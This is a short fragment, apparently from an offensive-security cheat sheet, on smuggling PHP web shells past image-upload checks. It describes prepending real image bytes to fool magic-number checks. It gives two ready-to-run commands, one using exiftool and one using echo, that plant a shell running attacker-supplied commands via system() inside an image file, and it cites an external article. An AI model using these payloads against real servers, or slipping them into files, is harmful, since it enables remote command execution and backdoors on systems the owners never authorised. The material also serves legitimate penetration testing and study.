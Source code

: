 ## Bypass magic number check by adding at the beginning of the file the bytes of a real image (confuse the file command). Or introduce the shell inside the metadata:
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
## or you could also introduce the payload directly in an image:
echo '<?php system($_REQUEST['cmd']); __halt_compiler(); ?>' >> img.png
- https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html